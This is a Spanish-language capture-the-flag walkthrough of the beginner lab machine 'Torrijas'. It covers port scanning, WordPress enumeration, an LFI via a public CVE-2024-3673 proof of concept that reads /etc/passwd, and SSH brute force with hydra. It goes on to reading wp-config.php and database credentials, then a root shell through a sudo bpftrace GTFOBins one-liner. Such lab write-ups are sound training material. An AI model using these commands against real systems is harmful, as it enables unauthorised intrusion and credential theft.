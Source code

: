 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Torrijas

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.66
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.66 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH y** el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 192.168.1.66
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 154105.png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 154309.png" alt=""><figcaption></figcaption></figure>

Ponemos el dominio **torrija.thl** en `/etc/hosts`. Tras esto realizamos un escaneo de directorios.

```
gobuster dir -u http://192.168.1.66 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,txt,php
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 155904.png" alt=""><figcaption></figcaption></figure>

Nos llama la atención que hay un **wordpress** por lo que indagamos más en ese directorio.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 160040.png" alt=""><figcaption></figcaption></figure>

Enumeramos los usuarios y los plugins con **WPScan**.

```
wpscan --url http://192.168.1.66/wordpress/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (1266).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Encontramos un usuario pero al realizar fuerza bruta no encuentra la contraseña. Entonces realizo un enumeración de plugins de manera agresiva.

```bash
wpscan --url http://192.168.1.66/wordpress --enumerate ap --force --plugins-detection mixed
```

<figure><img src="../../.gitbook/assets/image (1267).png" alt=""><figcaption></figcaption></figure>

Buscando los dos por Internet nos llama la atención el segundo ya que se puede realizar un **LFI**.

{% embed url="https://notcve.org/view.php?id=CVE-2024-3673" %}

{% @github-files/github-code-block url="https://github.com/Nxploited/CVE-2024-3673" %}

```
python3 CVE-2024-3673.py --url http://192.168.1.66/wordpress --file ../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (1268).png" alt=""><figcaption></figcaption></figure>

Encontramos dos usuarios llamados **Primo** y **Premo** pero solo encontramos a través de fuerza bruta la contraseña de **Premo**.

```
hydra -l premo -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.66 -t 64
```

<figure><img src="../../.gitbook/assets/image (1269).png" alt=""><figcaption></figcaption></figure>

Nos conectamos con esas credenciales a través de SSH.

```bash
ssh premo@192.168.1.66
```

<figure><img src="../../.gitbook/assets/image (1270).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.&#x20;

En este caso, al estar trabajando con una instalación de **WordPress** y con el puerto **3306** (MySQL) expuesto, el siguiente paso será intentar obtener las credenciales de la base de datos. Un archivo crucial en WordPress que suele contener esta información es el `wp-config.php`.

<figure><img src="../../.gitbook/assets/image (1271).png" alt=""><figcaption></figcaption></figure>

Nos conectamos a la base de datos.

```
mysql -u admin -p
```

<figure><img src="../../.gitbook/assets/image (1272).png" alt=""><figcaption></figcaption></figure>

Indagamos que tenemos en la base de datos.

```
show databases;
use wordpress;
show tables;
select * from wp_users;
```

<figure><img src="../../.gitbook/assets/image (1273).png" alt=""><figcaption></figcaption></figure>

Al ser la contraseña hasheada no nos sirve ya que estamos dentro pero probamos si podemos entrar en la base de datos de **root**.

```
mysql -u admin -p
show databases;
use Torrijas;
show tables;
select * from primo;
```

<figure><img src="../../.gitbook/assets/image (1274).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales.

<figure><img src="../../.gitbook/assets/image (1275).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/bpftrace/" %}

```
sudo bpftrace -c /bin/sh -e 'END {exit()}'
```

<figure><img src="../../.gitbook/assets/image (1276).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
